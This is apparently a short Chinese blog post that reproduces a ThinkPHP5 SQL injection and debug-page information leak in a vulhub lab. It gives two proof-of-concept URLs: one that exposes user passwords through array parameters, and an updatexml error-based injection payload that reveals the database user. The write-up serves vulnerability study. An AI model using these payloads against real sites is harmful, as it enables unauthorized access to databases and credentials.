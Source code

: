 ```yaml
---
title: ThinkPHP5 SQL注入漏洞 && 敏感信息泄露
date: 2020-06-14 14:03:28
categories: 漏洞复现
tags: ThinkPHP
---
```


#### 复现过程

1.访问如下POC，可看到用户密码

```
http://your-ip/index.php?ids[]=1&ids[]=2
```

<!--more-->

![](http://cdn.laohuan.art/2020-06-14_14-07-36.png)

2.DEBUG页面泄露敏感信息

```
http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1
```

![](http://cdn.laohuan.art/2020-06-14_14-08-36.png)

#### 参考链接

<https://github.com/vulhub/vulhub/blob/master/thinkphp/in-sqlinjection/README.zh-cn.md/>